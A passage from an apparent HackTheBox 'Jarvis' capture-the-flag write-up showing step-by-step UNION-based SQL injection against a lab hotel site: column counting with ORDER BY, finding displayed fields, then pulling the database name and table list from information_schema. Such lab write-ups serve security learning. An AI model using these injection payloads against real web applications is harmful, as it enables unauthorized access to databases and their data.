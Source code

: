 It seems that the port 64999 is blocking us.



# Shell as `www-data`

### SQL Injection

```
http://supersecurehotel.htb/room.php?cod=1 ORDER BY 7 -- -
```

8 returns error while 7 is ok.
So the number of fields is 7.

```
http://supersecurehotel.htb/room.php?cod=9 UNION SELECT 1,2,3,4,5,6,7 -- -
```

![](attachments/jarvis_3.png)

I tested with `UNION` sql injection again, and figured out that only 2,3,4,5 idx fields are featured on the screen.

```
http://supersecurehotel.htb/room.php?cod=9 UNION SELECT 1,2,3,4,database(),6,7 -- -
```

The database name is `hotel`.

```
http://supersecurehotel.htb/room.php?cod=9 UNION SELECT 1,2,3,4,GROUP_CONCAT(table_name),6,7 FROM information_schema.tables WHERE table_schema='hotel' -- -
```
